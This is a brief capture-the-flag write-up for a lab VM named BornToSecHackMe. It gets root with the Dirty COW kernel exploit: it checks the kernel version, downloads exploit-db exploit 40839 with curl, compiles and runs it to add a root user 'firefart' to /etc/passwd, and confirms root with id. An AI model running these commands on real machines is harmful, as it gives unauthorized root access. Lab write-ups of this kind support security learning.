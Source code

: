 # [Dirty Cow exploit](https://www.exploit-db.com/exploits/40839)

### Our Linux 

By using the command `uname` we get the VM version : a 3.2 linux kernel
```
laurie@BornToSecHackMe:~$ uname -a
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
```

The exploit came from this [article](https://payatu.com/guide-linux-privilege-escalation/) on privilege escalations on linux. It exploits a vulnerability to add a line in `/etc/passwd` file to make a new user with sudo rights (id is 0).

### How to use the Kernel exploit

```
curl https://www.exploit-db.com/raw/40839 > dirtycow.c
gcc -pthread dirtycow.c -o exploit -lcrypt
./exploit qwerty
su firefart
#password is qwerty
```

The command `id` returns :
```
root@BornToSecHackMe:/home/laurie# id
uid=0(root) gid=0(root) groups=0(root)
```